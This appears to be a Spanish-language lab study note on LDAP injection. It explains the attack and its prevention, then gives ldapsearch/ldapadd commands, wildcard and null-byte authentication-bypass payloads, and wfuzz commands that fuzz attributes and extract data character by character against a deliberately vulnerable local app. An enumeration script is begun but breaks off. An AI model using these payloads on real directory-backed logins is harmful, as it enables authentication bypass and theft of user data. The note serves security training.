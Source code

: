 # Inyecciones LDAP

Tags: #LDAP #OWASP #Explotacion

* [LDAP](https://www.profesionalreview.com/2019/01/05/ldap/)

Las inyecciones **LDAP** (**Protocolo de Directorio Ligero**) son un tipo de ataque en el que se aprovechan las vulnerabilidades en las aplicaciones web que interactúan con un servidor LDAP. El servidor LDAP es un directorio que se utiliza para almacenar información de usuarios y recursos en una red.

La inyección LDAP funciona mediante la inserción de comandos LDAP maliciosos en los campos de entrada de una aplicación web, que luego son enviados al servidor LDAP para su procesamiento. Si la aplicación web no está diseñada adecuadamente para manejar la entrada del usuario, un atacante puede aprovechar esta debilidad para realizar operaciones no autorizadas en el servidor LDAP.

Al igual que las inyecciones SQL y NoSQL, las inyecciones LDAP pueden ser muy peligrosas. Algunos ejemplos de lo que un atacante podría lograr mediante una inyección LDAP incluyen:

-   Acceder a información de usuarios o recursos que no debería tener acceso.
-   Realizar cambios no autorizados en la base de datos del servidor LDAP, como agregar o eliminar usuarios o recursos.
-   Realizar operaciones maliciosas en la red, como lanzar ataques de phishing o instalar software malicioso en los sistemas de la red.

Para evitar las inyecciones LDAP, las aplicaciones web que interactúan con un servidor LDAP deben validar y limpiar adecuadamente la entrada del usuario antes de enviarla al servidor LDAP. Esto incluye la validación de la sintaxis de los campos de entrada, la eliminación de caracteres especiales y la limitación de los comandos que pueden ser ejecutados en el servidor LDAP.

También es importante que las aplicaciones web se ejecuten con privilegios mínimos en la red y que se monitoreen regularmente las actividades del servidor LDAP para detectar posibles inyecciones.

A continuación, se proporciona el enlace directo al proyecto de Github que nos descargamos para desplegar un laboratorio práctico donde poder ejecutar esta vulnerabilidad:

-   **LDAP-Injection-Vuln-App**: [https://github.com/motikan2010/LDAP-Injection-Vuln-App](https://github.com/motikan2010/LDAP-Injection-Vuln-App)


## Comandos

```bash
❯ ldapsearch -x -H ldap://localhost -b dc=example,dc=org -D "cn=admin,dc=example,dc=org" -w admin 'cn=admin'   # Podemos ver informacion del usuario admin 

	# b,dc,dc = Base de busqueda, que el dominio seria example.org
	# D = Nombre distinguido
	# 1er_cn = Usuario a autenticar
	# w = Password 
	# x = Autenticacion simple (Usuario, Passwd)
	# 2do_cn = Criterio de busqueda y si existe que nos reporte la informacion  
```

```bash
❯ ldapsearch -x -H ldap://localhost -b dc=example,dc=org -D "cn=admin,dc=example,dc=org" -w admin 'cn=omar'    # Para enumerar un usuario especifico como 'omar'
```

```bash
❯ ldapsearch -x -H ldap://localhost -b dc=example,dc=org -D "cn=admin,dc=example,dc=org" -w admin '(&(cn=omar)(description=LDAP*))'

	# (&(cn=omar)(description=LDAP*)) = Le decimos que el usuario a buscar es omar 'y' su descripcion es LDAP, con * le decimos que tiene mas contenido despues de LDAP
	# (|(cn=omar)(description=LDAP*)) = Le decimos que el usuario a buscar es omar 'o' su descripcion es LDAP, con * le decimos que tiene mas contenido despues de LDAP
```

```bash
❯ ldapadd -x -H ldap://localhost -D "cn=admin,dc=example,dc=org" -w admin -f newuser.ldif  # Creara un usuario en base a un archivo que le pasemos
```

```python
❯ nano newuser.ldif
	dn: uid=omar,cd=example,dc=org
	uid: omar
	cn: omar
	sn: 3
	objectClass: top
	objectClass: posixAccount
	objectClass: inetOrgPerson
	loginShell: /bin/bash
	homeDirectory: /home/omar
	uidNumber: 14583102
	gidNumber: 14564100
	userPassword: omar123                      # Automaticamente pasara la passwd a base64
	mail: omar@omarcorp.com
	description: Es una prueba 
	telephoneNumber: 6467548712
```

## Inyecciones
```bash
❯ id=a* &password=*                                  # Nos ayuda a decir que existe cualquier tipo de data y por ende nos ayuda a enumerar usuarios validos

	# a* = Decimos que el usuario empieza con 'a' y despues contiene data, podria ser 'admin'
```

```bash
❯ id=admin))%00 &password=test                        # Es como si hicieramos esto = (&(cn=admin))%00)(userPassword=*))

	# %00 = Es un Null byte, que con )) nos ayuda a comentar el resto de la query y no lea la parte de la passwd
```

```bash
❯ /usr/share/seclists/Fuzzing/LDAP-openldap-attributes.txt            # Diccionario con atributos para LDAP
```

Enviaremos data por **POST** para hacer el Fuzzing de los atributos
```bash
❯ wfuzz -c --hh=439 -w /usr/share/seclists/Fuzzing/LDAP-openldap-attributes.txt -d 'user_id=admin)(FUZZ=*))%00&password=*&login=1&submit=Submit' http://localhost:8888

	# FUZZ = Ahi se sustituira el diccionario, en donde colocara todos los atributos y los que hagan match con cualquier data, nos mostrara el resultado
	# La query original es esta 'user_id=admin&password=admin&login=1&submit=Submit'
	# %00 = Colocamos el Null byte y los )) para comentar el resto de la query y no nos interprete la password
	# hh = Ocultar los caracteres que tengan como resultado 439
```

```bash
❯ wfuzz -c -w /usr/share/seclists/Fuzzing/LDAP-openldap-attributes.txt -d 'user_id=*)(FUZZ=*))%00&password=*&login=1&submit=Submit' http://localhost:8888

	# FUZZ = Ahi se sustituira el diccionario, en donde colocara todos los atributos y los que hagan match con cualquier data, nos mostrara el resultado
	# user_id = * es para enumerar todos los usuarios, ya que esta haciendo match con data
	# La query original es esta 'user_id=admin&password=admin&login=1&submit=Submit'
	# %00 = Colocamos el Null byte y los )) para comentar el resto de la query y no nos interprete la password
```

Para hacer Fuzzing a un atributo especifico, en este caso para el telephoneNumber
```bash
❯ wfuzz -c --hh=439 -z range,0-9 -d 'user_id=omar)(telephoneNumber=FUZZ*))%00&password=*&login=1&submit=Submit' http://localhost:8888

	# Nos descubriria siempre un numero, y lo debemos de agregar antes de la palabra FUZZ, asi hasta encontrar el numero final
	# FUZZ = Ahi se sustituira el diccionario
	# z = Diccionario de tipo range 
	# user_id = Buscar por un usuario especifico
	# La query original es esta 'user_id=admin&password=admin&login=1&submit=Submit'
	# %00 = Colocamos el Null byte y los )) para comentar el resto de la query y no nos interprete la password
```

Script para enumerar usuario validos, pero estos tienen atributos como:
* mail
* telephoneNumber
```python
❯ nano ldapi.py
	#!/usr/bin/python3
	from pwn import *
	import requests, time, sys, signal

	def def_handler(sig, frame):
		print("\n\n[!] Saliendo...\n")
		sys.exit(1)

	# Ctrl + c
	signal.signal(signal.SIGINT, def_handler)


	if __name__ == '__main__':
```